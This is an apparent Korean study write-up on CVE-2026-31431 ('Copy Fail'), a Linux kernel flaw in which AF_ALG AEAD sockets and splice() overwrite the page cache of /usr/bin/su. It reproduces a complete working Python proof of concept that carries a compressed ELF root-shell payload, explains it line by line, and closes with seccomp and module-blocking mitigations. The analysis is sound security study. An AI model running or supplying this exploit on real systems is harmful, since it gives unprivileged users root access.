




**미션 목표** 
CVE-2026-31431의 루트커즈와 PoC코드에 대해 분석해본다.

# 개요
 CVE-2026-31431는 리눅스 커널의 AEAD 소켓 인터페이스에 존재하는 페이지 캐시 내용의 4byte를 원하는 값으로 덮어쓸 수 있는 로컬 권한 상승 취약점으로, 디스크 원본 파일을 건드리지 않은 채로 setuid 프로그램을 변조할 수 있고, 이를 통해 root 권한 획득까지 가능하다.

해당 취약점은 Linux Kernel 버전 4.14 이상 6.18.22 미만, Linux Kernel 버전 6.19 이상 6.19.12 미만에서 발생한다. CVSS 점수는 7.8(High)이며, CWE 분류는 CWE-699(Incorrect Resource Transfer Between Spheres)다.

# 취약점 발생 경로 및 원인
 먼저 공격 흐름을 이해하기 위해서는 기본적으로 페이지 캐시, splice, 인증 암호화(AEAD, Authenticated Encryption with Associated Data), setuid를 알아야한다.

**페이지 캐시**
 리눅스는 파일을 읽을 때마다 디스크를 실행하지 않지 않고 프로세스가 파일을 읽은 다음에 커널이 파일 내용을 페이지 단위로 메모리에 캐시한 후, `execve()`는 그 캐시 페이지를 주소 공간에 매핑한다. 이후 읽기는 CPU가 캐시를 실행하여 직접 캐시를 찾아 읽는다. 그래서 디스크에 저장된 원본과 캐시에 저장된 내용이 달라질 수 있다.
 
```
page cache inode 입도.동일한 파일이 얼마나 많은 프로세스에 의해 열려 있든지 간에 커널에는 Page Cache가 하나만 있다.
```

****

 **Splice**
 `splice()` 는 Linux의 Zero Copy 메커니즘으로 pipe를 통해 두 fd 사이에서 데이터를 옮긴 후, 권한을 유지한 채로 커널에서 페이지 자체를 직접 전달한다. 
```
파일 - splice - → pipe - splice - → socket
```
즉, 읽기 권한만 있는 파일의 페이지가 다른 커널 서브시스템 안으로 들어가는 경로가 된다.

_참고_
```
Zero-Copy: 데이터를 한 메모리 영역에서 다른 영역으로 복사할 때, CPU가 직접 데이터를 읽고 쓰는 연산(CPU Copy)을 생략하여 시스템 성능을 극대화하는 기법
```

****

**인증 암호화(AEAD)**
AEAD(Authenticated Encryption with Associated Data)는 암호화와 무결성 검증을 하나의 연산으로 수행하는 방식이다. 복호화 입력은 `AAD + 암호문 + 인증 태그` 구조를 가지며, 인증 태그는 입력의 맨 뒤에 놓인다.

```
입력 구조:  [ AAD ][ 암호문 ][ 인증 태그 ]

처리 순서:  복호화 · MAC 계산 >> 출력 기록 >> 태그 비교 >> 결과 반환
                                   ↑             ↑
                              쓰기는 이미 끝남   검증은 여기
```

 여기서 Copy fail이 일어난 원인은 검증 시점이다. AEAD는 복호화와 MAC 계산을 먼저 마치고 결과를 출력 버퍼에 기록한 뒤, 맨 마지막에 태그를 비교한다. 검증이 입구가 아니라 출구에 있다.

즉, 태그 비교가 실패해 `recv()`가 오류를 반환하더라도 출력 기록은 이미 완료된 상태다. Copy Fail에서 위조된 암호문으로도 4바이트 쓰기가 성립하는 이유가 여기에 있다.
![[crypto-AEAD-동작-원리.png]]

_참고_
```
MAC(Message Authentication Code): 데이터가 변조되지 않았음을 확인하기 위해 키와 데이터로부터 계산하는 고정 길이 값. AEAD는 복호화 과정에서 MAC을 다시 계산해 전달받은 인증 태그와 비교한다.
```

****

**Setuid**
`setuid`는 실행 파일에 설정하는 권한 비트로, 이 비트가 켜진 프로그램은 실행한 사용자가 아니라, 파일 소유자의 권한으로 동작한다. `/usr/bin/su`는 root 소유의 setuid 프로그램이므로 일반 사용자가 실행해도 root 권한을 갖는다.

주목할 것은 커널이 권한과 코드를 서로 다른 곳에서 가져온다는 점으로 디스크에 그대로 둔 채 페이지 캐시만 변조하면 권한 상승은 정상적으로 일어나고 실행되는 코드만 공격자의 것이 된다.
```
execve("/usr/bin/su")
  ├ 권한 결정 ← inode의 setuid 비트   (디스크의 메타데이터)
  └ 코드 적재 ← 페이지 캐시           (메모리의 사본)
```

_참고_
```
euid(실효 UID): 프로세스가 권한 검사를 받을 때 사용되는 사용자 ID. setuid 프로그램을 실행하면 커널이 euid를 파일 소유자의 UID로 변경한다. /usr/bin/su는 root 소유이므로 euid가 0이 된다.
```

****

이제 이 내용을 바탕으로 본격적인 공격 흐름을 알아보자.



해당 공격 흐름은 4바이트 쓰기를 40회 반복해 `/usr/bin/su`의 페이지 캐시를 160바이트 ELF 페이로드로 덮어쓴다.

1. 일반 사용자 권한으로 `/usr/bin/su`를 읽기 전용으로 연다. 쓰기 권한은 필요하지 않다. 이 단계만 한 번 수행되고, 2~7은 4바이트마다 반복된다.
2. AF_ALG 소켓을 만들고 `authencesn(hmac(sha256),cbc(aes))`를 선택한다. 권한이 없는 사용자도 기본 설정에서 커널 crypto 모듈에 접근할 수 있다.
3. `sendmsg()`로 페이지 캐시에 기록할 4바이트를 AAD에 실어 보낸다. `authencesn`이 `seqno_lo`로 읽는 위치가 바로 이 자리다.
4. `splice()`로 `/usr/bin/su`의 페이지 캐시를 복호화 입력에 연결한다. 데이터는 복사되지 않고 **페이지 참조만** 전달된다.
5. `algif_aead`가 in-place로 동작하면서 인증 태그가 담긴 입력 페이지를 복사하지 않고 출력 목록 뒤에 연결한다. **이 순간 읽기 전용이어야 할 파일 페이지가 쓰기 가능한 영역 안에 들어간다.**
6. `recv()`를 호출하면 복호화가 수행되고, `authencesn`이 정상 출력 범위를 벗어난 위치에 `seqno_lo` 4바이트를 기록한다. 그 자리가 5단계에서 연결된 파일의 페이지 캐시다.
7. 인증 검증이 실패해 `recv()`가 오류를 반환한다. 그러나 검증은 연산의 마지막 단계이므로 6단계의 기록은 이미 완료되어 있고, 되돌려지지 않는다.
8. (2~7)번을 40회 반복한다. 회차 마다 소켓과 scatterlist는 새로 구성되지만 연결되는 페이지는 항상 동일하므로, 4바이트씩 기록된 내용이 한 페이지에 누적된다.
9. `su`를 실행한다.
`/usr/bin/su`의 디스크의 원본은 바뀌지 않았지만 리눅스는 실행할 때 변경된 페이지 캐시를 사용하므로 쉘코드가 root 권한으로 실행되면서 일반 사용자가 root 권한을 얻게 된다.

****
# Root Cause
`splice()`로 들어온 페이지는 호출자에게는 사용자 입력이지만 실체는 시스템이 공유하는 파일 캐시로, 읽기 전용으로 쓰여야 할 자료가 쓰기 가능한 목적지에 들어가면서 경계가 사라졌다. 또, AAD와 암호문은 출력 버퍼로 복사하면서 인증 태그만 복사하지 않고 일부만 복사한 것이 가장 위험했다. `authencesn`은 출력 범위를 넘어 기록하고 그 값을 복원하지 않아 위험했다.

# 재현
**재현 환경 구성**
```
https://releases.ubuntu.com/25.10/ubuntu-25.10-live-server-amd64.iso
```
해당 링크에서 Ubuntu 25.10의 ISO 이미지를 다운 받았다.




****

PoC 코드는 다음과 같다.
```python
#!/usr/bin/env python
import os as g,zlib,socket as s
def d(x):return bytes.fromhex(x)
def c(f,t,c):
 a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'*64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"*4+c],[(h,3,i*4),(h,2,b'\x10'+i*19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)
 try:u.recv(8+t)
 except:0
f=g.open("/usr/bin/su",0);i=0;e=zlib.decompress(d("78daab77f57163626464800126063b0610af82c101cc7760c0040e0c160c301d209a154d16999e07e5c1680601086578c0f0ff864c7e568f5e5b7e10f75b9675c44c7e56c3ff593611fcacfa499979fac5190c0c0c0032c310d3"))
while i<len(e):c(f,i,e[i:i+4]);i+=4
g.system("su")
```
그럼 해당 코드들이 어떻게 작동하는지, 루트 커즈 부분 어디에 해당하는지 하나씩 알아보도록 하자.

```python
a=s.socket(38,5,0);a.bind(("aead","authencesn(hmac(sha256),cbc(aes))"));h=279;v=a.setsockopt;v(h,1,d('0800010000000010'+'0'*64));v(h,5,None,4);u,_=a.accept();o=t+4;i=d('00');u.sendmsg([b"A"*4+c],[(h,3,i*4),(h,2,b'\x10'+i*19),(h,4,b'\x08'+i*3),],32768);r,w=g.pipe();n=g.splice;n(f,w,o,offset_src=0);n(r,u.fileno(),o)
```
af_alg 소켓 + splice
```python
f=g.open("/usr/bin/su",0);i=0;
```
얘는 `/usr/bin/su`파일을 읽기 전용으로 연다.

```python
e=zlib.decompress(d("78d,,,0d3"))
```
e는 16진수로 저장된 압축 데이터를 해제하는 역할로 압축을 풀면 160바이트 ELF가 저장 되어있다.



ELF인지 확인하기 위해 익스코드에 사용된 페이로드를 넣고 hexdump로 살펴보았다.

```python
while i<len(e):c(f,i,e[i:i+4]);i+=4
```
4바이트 덮어쓰기를 40회 반복하는 함수이다. `c()`에 넘기는 `t`와 슬라이스 시작점이 둘 다 i라서, ELF의 i번째 바이트가 파일의 i번째 위치로 간다.

```python
g.system("su")
```
페이지 캐시가 변조된 `su`를 실행한다. setuid 비트를 건드리지 않아 삽입된 ELF 페이로드가 root 권한으로 실행되고, `/bin/sh`를 열어 root 셸을 획득한다.




# 패치 방법

Copy fail의 공격 구간인 `AF_ALG`소켓 생성을 제한하는 것이 핵심 완화 조치이다.  SELinux 또는 AppArmor 정책에서 `CAP_NET_RAW` 없이 AF_ALG 소켓 바인딩을 차단하면 공격 표면을 크게 줄일 수 있다.

```bash
# Seccomp 프로파일을 통한 AF_ALG 소켓 생성 제한
# /etc/seccomp/af_alg_block.json 예시
{
  "defaultAction": "SCMP_ACT_ALLOW",
  "syscalls": [
    {
      "names": ["socket"],
      "action": "SCMP_ACT_ERRNO",
      "args": [
        {
          "index": 0,
          "value": 38,  // AF_ALG = 38
          "op": "SCMP_CMP_EQ"
        }
      ]
    }
  ]
}
```

또, `socket_bind` 훅을 이용해 정당한 사용자에게는 AF_ALG 모듈을 허용하면서 다른 모든 프로세스에 대해서는 소켓 바인딩을 거부하는 세밀한 정책을 배포했다.

```bash
# 즉각적인 완화 조치: algif_aead 모듈 비활성화
echo "install algif_aead /bin/false" | sudo tee /etc/modprobe.d/disable-algif-aead.conf
sudo modprobe -r algif_aead

# 영구 적용 (재부팅 후에도 유지)
sudo update-initramfs -u  # Debian/Ubuntu
sudo dracut --force        # RHEL/Fedora
```

# 마무리
`AF_ALG`, `splice`같은 처음 보는 개념들과 흐름을 이해하는게 어려웠지만 공격 흐름을 직접 따라가며 학습을 하니 정말 재미있었다. 한편으로 해당 취약점과 같이 과거엔 부각되지 않는 취약점을 이제는 ai가 쉽게 찾을 수 있을 것 같아 전반적인 점검이 필요할 것 같다. 

Copy fail을 조사하는 과정에서 해당 취약점과 비슷하게 다른 방식들로 페이지 캐시를 덮어쓰는 취약점이 있다고 하던데(Dirty Frag와 DirtyDecrypt) 추후에는 Drity pipe를 학습해보고 싶다!

**참고 사이트**
개념 참고
https://theori.io/ko/blog/copy-fail-page-cache
https://nvd.nist.gov/vuln/detail/cve-2026-31431?ref=vpnrevie.ws
https://rupijun.tistory.com/entry/Linux-%EC%BB%A4%EB%84%90-Copy-Fail-CVE-2026-31431-%EB%A3%A8%ED%8A%B8-%EA%B6%8C%ED%95%9C-%ED%83%88%EC%B7%A8-%EC%B7%A8%EC%95%BD%EC%A0%90%EA%B3%BC-%EC%97%94%ED%84%B0%ED%94%84%EB%9D%BC%EC%9D%B4%EC%A6%88-%EB%B0%A9%EC%96%B4-%EC%84%A4%EA%B3%84#%EC%B7%A8%EC%95%BD%EC%A0%90%EC%9D%98-%EC%9E%91%EB%8F%99-%EC%9B%90%EB%A6%AC
https://copy.fail/#copy-fail
https://medium.com/@renpuhan4/cve-2026-31431-copy-fail-%EC%BB%A8%ED%85%8C%EC%9D%B4%EB%84%88-%ED%83%88%EC%B6%9C%EC%97%90-%EB%8C%80%ED%95%9C-%EA%B3%A0%EC%B0%B0-8a7290f2cc90
https://www.minzkn.com/linuxkernel/pages/crypto.html#aead


poc 코드
https://github.com/theori-io/copy-fail-CVE-2026-31431


